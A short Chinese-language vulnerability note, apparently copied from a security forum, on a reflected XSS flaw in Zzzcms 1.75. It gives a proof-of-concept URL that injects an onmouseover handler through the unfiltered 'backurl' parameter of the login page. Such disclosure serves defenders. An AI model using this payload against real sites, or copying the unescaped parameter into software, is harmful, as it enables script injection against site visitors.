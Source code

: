 # Zzzcms 1.75 xss漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3319](https://www.zhihuifly.com/t/topic/3319)

# Zzzcms 1.75 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

```
http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d 
```

该onmouseover事件在移动到登录注册时会触发

![image](img/2e52ed57cc575615ea79376015fa2e80.png)

对传入的backurl并没有做任何防护

![image](img/688ced792b5205c4a41ba046f8d40967.png)